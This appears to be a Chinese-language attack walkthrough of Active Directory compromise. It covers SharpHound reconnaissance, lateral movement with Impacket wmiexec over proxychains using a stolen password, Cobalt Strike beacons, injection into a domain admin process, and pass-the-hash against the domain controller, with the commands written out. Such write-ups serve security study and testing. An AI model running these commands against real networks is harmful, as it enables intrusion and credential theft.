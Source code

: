     
    
    execute-assembly /root/桌面/nw/SharpHound.exe -c all

![](https://gitee.com/fuli009/images/raw/master/public/20210809121230.png)

然后把他下载到本地进行分析：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121231.png)

可以看到当前只有四个域管理员：

![](https://gitee.com/fuli009/images/raw/master/public/20210809121232.png)

由于当前跳板机器是DRAxx，我们就分析  DRAxx 的环境：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121234.png)

可以看到当前机器 DRAxx 可以到达 ERIDANUS.xxxx.xxx 机器，思路就是我们可以通过 ERIDANUS
拿到这台机器的权限，然后在拿到最近的域管！那么我们直接通过之前抓到的 ali.hamzeh 密码去横向 wmi 到 ERIDANUS：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type cmd xxxx/ali.hamzeh:passsword@192.168.54.53 -codec gbk

![](https://gitee.com/fuli009/images/raw/master/public/20210809121235.png)

然后直接 Powershell 上线到 CobaltStrike：（太卡了这个 socks，又重开了一个 wmi）

![](https://gitee.com/fuli009/images/raw/master/public/20210809121236.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210809121237.png)

由于当前 ERIDANUS 机器没有 AV 直接提权把：

![](https://gitee.com/fuli009/images/raw/master/public/20210809121238.png)

通过查看当前 ERIDANUS 机器发现的确如 SharpHound 分析那样有一个 ebrahim 域管的进程：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121239.png)

直接注入域管进程上线到 CobaltStrike 吧：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121240.png)

成功拿到域管权限！我为了好区分，绿色 beacon 是 域管！之后直接先抓下域管密码 hash：

![](https://gitee.com/fuli009/images/raw/master/public/20210809121241.png)

有了域管的 hash 后，直接可以 PTH 域控：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type powershell -hashes :84d562d8c6f5xxxxxxxxxx xxxxx/ebrahim@192.168.10.10 -codec gbk
